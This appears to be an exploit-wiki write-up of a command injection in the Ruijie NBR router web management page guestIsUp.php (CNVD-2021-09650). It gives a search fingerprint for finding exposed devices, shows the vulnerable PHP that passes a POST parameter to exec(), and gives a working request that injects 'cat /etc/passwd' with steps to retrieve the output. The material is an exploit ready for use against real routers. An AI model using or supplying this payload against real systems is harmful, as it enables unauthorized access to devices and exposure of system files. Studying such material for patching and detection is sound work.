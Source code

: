 # Ruijie NBR router guestIsUp.php remote command execution vulnerability CNVD-2021-09650

## Vulnerability Description

Ruijie NBR router There is command injection in some interfaces of EWEB network management system, resulting in remote command execution and obtaining permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie NBR router EWEB network management system</span>

## Network surveying and mapping



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="-692947551"</span>

## Vulnerability reappears



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-6.png)



The vulnerable file is in `/guest_auth/guestIsUp.php`



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



Here we see that command execution is constructed through command splicing.



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



Then visit the page `/guest_auth/test.txt` to see the result of the command execution



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-5.png)



## 
